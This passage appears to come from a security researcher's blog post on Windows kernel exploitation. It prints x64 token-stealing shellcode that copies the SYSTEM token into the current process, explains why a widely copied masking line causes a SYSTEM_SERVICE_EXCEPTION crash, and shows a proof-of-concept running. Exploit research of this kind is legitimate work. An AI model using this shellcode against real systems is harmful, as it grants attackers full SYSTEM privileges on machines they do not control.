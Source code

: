 ```c
		WaitForSingleObject(pi.hProcess, INFINITE);
		CloseHandle(pi.hThread);
		CloseHandle(pi.hProcess);
	}

	return 0;
}
```

It took me days to solve a BSOD caused by the token stealing shellcode (shown below). This shellcode has been posted on hundreads of blogs, and is imo wrong.
```NASM
[BITS 64]
start:
  mov rax, [gs:0x188]       ; KPCRB.CurrentThread (_KTHREAD)
  mov rax, [rax + 0xb8]     ; APCState.Process (current _EPROCESS)
                            ; dt nt!_KTHREAD ApcStateFill + dt nt!_KAPC_STATE Process
  mov r8, rax               ; Store current _EPROCESS ptr in RBX

loop:
  mov r8, [r8 + 0x448]      ; ActiveProcessLinks (dt _EPROCESS ActiveProcessLinks)
  sub r8, 0x448             ; Go back to start of _EPROCESS (same offset as above)
  mov r9, [r8 + 0x440]      ; UniqueProcessId (PID) (dt _EPROCESS UniqueProcessId)
  cmp r9, 4                 ; SYSTEM PID?
  jnz loop                  ; Loop until PID == 4

replace:
  mov r9, [r8 + 0x4b8]      ; Get SYSTEM token (dt _EPROCESS Token)
  ; and r9, 0xf0              ; Clear low 4 bits of _EX_FAST_REF structure
  mov [rax + 0x4b8], r9     ; Copy SYSTEM token to current process (dt _EPROCESS Token)

  xor rax,rax
  ret
```

The `and r9, 0xf0` line of code, which clears the reference counting bits, causes a `SYSTEM_SERVICE_EXCEPTION` BSOD. I actually figured this out because I got this stack trace on a BSOD:
![SYSTEM_SERVICE_EXCEPTION stack trace](/assets/img/2025-02-01/stack_trace.PNG)

If we Google `ObfReferenceObjectWithTag` you dont find much, but you will find simlar functions like:


> The [ObDereferenceObjectWithTag](https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/wdm/nf-wdm-obdereferenceobjectwithtag) routine decrements the reference count of the specified object, and writes a four-byte tag value to the object to support object reference tracing

and

> The [ObfReferenceObject](https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/wdm/nf-wdm-obfreferenceobject) routine increments the reference count to the given object.

and the general theme is that these functions _play_ with the reference counting bits, that we just NULL'ed into oblivion. I actually think the shellcode can be improved by keeping the original ref counting bits, and only replacing the token pointer, but after commenting out that line (shown above), the PoC has never caused a BSOD so that’s good enough for me for now.

![PoC running and getting RCE](/assets/img/2025-02-01/poc_running.PNG)

